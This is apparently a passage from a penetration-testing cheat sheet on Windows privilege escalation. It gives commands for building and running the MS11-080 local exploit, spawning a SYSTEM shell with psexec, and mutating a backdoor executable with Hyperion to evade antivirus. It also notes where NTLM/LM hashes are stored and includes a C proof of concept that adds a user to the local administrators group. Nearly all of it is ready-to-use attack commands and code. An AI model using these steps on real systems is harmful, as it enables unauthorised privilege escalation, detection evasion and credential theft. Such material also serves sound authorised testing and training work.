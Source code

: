 ### Windows MS11-080

http://www.exploit-db.com/exploits/18176/

```
python pyinstaller.py --onefile ms11-080.py
```

```
mx11-080.exe -O XP
```

From admin to system

```
psexec.exe -i -s %SystemRoot%\system32\cmd.exe
```

```
https://github.com/Cn33liz/EasySystem 
```

### AV bypass

Generating a mutated binary to bypass antiviruses

```
wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe
```

## Access Check

You will probably need to accept the eula first:

```
accesschk.exe /accepteula
```

## Windows hashes

{% hint style="success" %}
if you capture a hash - put it into Google someone might have cracked it before
{% endhint %}

NTLM and LM passwords are located in the SAM file in **C:\Windows\SYSTEM32\CONFIG**

LAN Manager (LM): Windows XP and prior use LAN manager protocol. Uses DES but the key space is small (only uppercase, not salted, 14 chars or padded to 14).

NTLM/NTLM2: It does not split the password, also stored in uppercase

Kerberos: Default protocol for active directory envs.PoCs

Add user to administrator group

```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```
